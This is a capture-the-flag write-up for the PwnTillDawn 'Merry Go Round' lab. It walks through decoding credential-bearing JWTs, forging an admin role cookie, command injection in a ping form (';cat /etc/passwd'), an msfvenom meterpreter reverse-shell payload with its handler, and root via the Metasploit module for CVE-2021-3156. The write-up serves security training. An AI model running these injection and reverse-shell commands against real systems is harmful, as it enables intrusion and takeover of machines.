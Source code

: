 ```yaml
---
layout: post
title: PwnTillDawn - Merry Go Round Write-Up
date: 2025-03-03
classes: wide
description: Enumerating a Python web application, decoding JWT tokens and passwords, crafting custom cookies to elevate user privileges, getting a shell through a Code Execution vulnerability and escalating privileges with a known sudo CVE.
---
```


# Merry Go Round (10.150.150.100)

![](/assets/img/post/pwntilldawn_merry_go_round/1.png)

## Initial Reconnaissance

Let's check the results from Nmap and gather some intel on available services.

![2](/assets/img/post/pwntilldawn_merry_go_round/2.png)

Note that apart from SSH and a default Apache web server, we also have a Python application on port 5000 and some other ports with unknown services and strings. Since the results look the same, I'm assuming the strings are more relevant than the ports, so I've did some magic with `cut` to get the strings to a separate file:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibG9va2hlcmUiLCJwYXNzIjoiOGU1N2MyZGQzNmMxZDM4Y2YwODdiZWVkNWIzMjNlMDU5MDViZmU3ZiJ9.fBKrYMD45D_RzqpviCaEtbikRy1IEUMp_WpinskOFq8

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW5pc3RyYXRvciIsInBhc3MiOiJmb3Jlc2lnaHQifQ.__jHKPQmpDS8cv8pPeUzIw_Rf7023a9uS6lOJ06L310

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW5pc3RyYXRvciIsInBhc3MiOiJhbmltYWxzIn0.JkpC-k2Dn8ilSAEVPujOdC9k7_kXE3f8Nq83bYsoqcY

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaXRzbWUiLCJwYXNzIjoiNDdiY2U1Yzc0ZjU4OWY0ODY3ZGJkNTdlOWNhOWY4MDgifQ.Dl5z94QAi5MuOEA5sCO6-mY0zbuf7lJcvY-yMNr6v80

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaG9uZXkiLCJwYXNzIjoiMzdjNjA3MTE5OWZjMGQ1NGM3ODA0ZjRlZTY3ZTBiZTFmZjQ5MGUwOWE3MzE2ZWIyMDJmODE4ZDcwOTk1MjU3MGYzMGVmYjE1ZjMwMGQ1ZTYwNmMxZjAxMjdlMTNiMTkwODU0Y2UyMjFkNjllYjg3OTBhZjI4YTQ0NjNmYTZiODEifQ.B7oIwzKMDvqASNqGMeCF65oD8JARDh1rGrR26j6QQE4

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaXRzbWUiLCJwYXNzIjoiZDFlMDFlODU5MzYxNmY0NDViNWNkOWY5MDQzYTUyNDcifQ.lFjYg1jP-Uf2zLgTs9BBrbJJvtEQDhHF-IxjDBJTgg8

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaXRzbWUiLCJwYXNzIjoiMjE4MWU2NzQ0YWExYmE3ZjQxNzk5NmM2ODljMjA2YjkifQ.cgvHCCkeb3cuettvALYp3jqGqLKPJcjyw8cv7jsYNH0

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiIsInBhc3MiOiJVRTlxZG5JNFVrcDNlSGQxYWt0VFpRbz0ifQ.KnkALx296Nb4Y-2JzTvbK2IedamG7gp_TpKb36WFqhI

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoicmljaGFyZCIsInBhc3MiOiI3MDc1NkU2NTY1NzQifQ.IhTAmFEqJYwvth8hLJDEolmkiOhDYEUqFmt3gB7qc5Y

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibG9va2hlcmUiLCJwYXNzIjoiOWU2Njk1ZDA5OTQ2NmUwZjE4MGM1ZTJjNmJmMjY1NDI4MTQzYTNlOSJ9.Hq55Zrk-QOUcQDEu-8kzIkpNxUnVspDKi8iScETwZsM
```



## Decrypt, Crack, Ride Again

As the default Apache web server doesn't contain any information, let's skip to the Python `Werkzeug` web server on port 5000. We're greeted with a login page with no additional functionalities since there's no reset password page linked. Also, the source-code doesn't have anything relevant on it.

![3](/assets/img/post/pwntilldawn_merry_go_round/3.png)

If you're familiar with basic cryptography you've probably noticed the strings follow a certain pattern and they're likely to be base64 encoded strings. Attempt to decode any of the strings and you'll see they're actually JWT (Jason Web Tokens).

After using a [JWT debugger](https://jwt.io/) to decode the tokens, we'll notice that these tokens actually have usernames and passwords inside. Moreover, the stored passwords are encrypted with different algorithms for each one.

![4](/assets/img/post/pwntilldawn_merry_go_round/4.png)

We don't have a valid signature, but that's not important, so I've taken each credential and added to another file:

```
lookhere:8e57c2dd36c1dc38cf087beed5b323e05905bfe7f
administrator:foresight
administrator:animals
itsme:47bce5c74f589f4867dbd57e9ca9f80d8
itsme:d1e01e8593616f445b5cd9f9043a5247
itsme:2181e6744aa1ba7f417996c68c20b9
john:UE9xgnI4UkcWkD1aktZRco=
richard:70756E657364
lookhere:9e6695d09946e0f18c5e2c6bf26542813a3e9
honey:37c6071199fc0d54c7804f4e67e2b1df490e09a7316eb202f818d70995257a3062f9ac6c17c1c7dbdc6ef72c31be77b64c1c859ea9f18fc0500d29b32c8ae8d5f5b7e5bc6e22806d0a
```

Different passwods use different algorithms and encodings, as mentioned previously, such as base64, MD5 and hexadecimal. So I've decoded every password except for the `honey` user:

```
lookhere:harvey
administrator:foresight
administrator:animals
itsme:aaa
itsme:joanne
itsme:mutant
john:POjvr8RJwxwujKSe
richard:puneet
lookhere:hal
honey:37c6071199fc0d54c7804f4ee67e0be1ff490e09a7316eb202f818d709952570f30efb15f300d5e606c1f0127e13b190854ce221d69eb8790af28a4463fa6b81
```

Now, after a few attempts, I've successfully logged in using `john`'s account, reaching the first flag.

![5](/assets/img/post/pwntilldawn_merry_go_round/5.png)

Though the page asks for a username and employee ID, it doesn't matter what you type in, you'll be sent to an unauthorized page, so it has to be something else. The page tips us with the message `The higher you escalate, the more you see....` so checking users can't be right.



## Token Trickery

After being stuck for a while I've noticed something in the requests:

![6](/assets/img/post/pwntilldawn_merry_go_round/6.png)

The cookie explicitly tell us is meant to set a role for the user, futhermore there's a JS library being used in this page with some base64 strings inside:

![7](/assets/img/post/pwntilldawn_merry_go_round/7.png)

Decoding the base64 strings reveals crucial information abou the application:

```
role cookie format: sha256("username:user")
```

So this code is a `sha256` function, and the cookie format is username followed by a role, which can either be user or admin. Let's modify this cookie using the function inside thw brower console:

![8](/assets/img/post/pwntilldawn_merry_go_round/8.png)

And after reloading the page, we'll be greeted again with a new message, and another flag.

![9](/assets/img/post/pwntilldawn_merry_go_round/9.png)



## Command In, Shell Out

The new page has a simple ping functionality that's being executed inside the machine, so this calls for a Command Execution vulnerability instantly. Let's use a generic payload:

```
;cat /etc/passwd
```

![10](/assets/img/post/pwntilldawn_merry_go_round/10.png)

The `;` symbol ensures the next command will be executed even though the last one returned an error, so we don't need to add an IP address. Time get a shell inside this machine. I'll be using `msfvenom` to generate the payload: 

```
msfvenom -p python/meterpreter/reverse_tcp lhost=tun0 lport=4444 -f raw -o shell.py
```

> :bulb: **Did You Know?** You can actually use the network interface name instead of the IP address when creating payloads? (i.e. `lhost=interface`)

And here's our payload:

```
; python -c "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('<BASE64_ENCODED_PAYLOAD>')[0])))"
```

Now let's start the handler:

```
msfconsole -x "use multi/handler;set payload python/meterpreter/reverse_tcp;set lhost tun0;set lport 4444;run -j"
```

And after sending the payload we'll receive the connection:

![11](/assets/img/post/pwntilldawn_merry_go_round/11.png)

The next flag will be found inside our current use home directory:

![12](/assets/img/post/pwntilldawn_merry_go_round/12.png)



## Sudo, Sudo, Root

The method to escalate privileges on this machine is by identifying a known CVE due to the out-of-date sudo version:

```
sudo --version | head -n1
```

![13](/assets/img/post/pwntilldawn_merry_go_round/13.png)

This version is actually vulnerable to CVE-2021-3156 (a.k.a. Sudo Baron Samedit). Since we're already using Metasploit, we can just use the available exploit for this CVE. Just use `Ctrl + Z` to background the current channel and `bg` to background the session, this will take you back to Metasploit.

```
search cve-2021-3156
```

![14](/assets/img/post/pwntilldawn_merry_go_round/14.png)

This is the exact one! Let's fill the required information and fire it up:

```
use exploit/linux/local/sudo_baron_samedit
```

![15](/assets/img/post/pwntilldawn_merry_go_round/15.png)

Once the exploit has been successfully executed, you can get another shell, this time as the `root`. The final flag is inside the user `happy` which we saw earlier in the `/etc/passwd` file:

![16](/assets/img/post/pwntilldawn_merry_go_round/16.png)

And with great success we have all the flags!
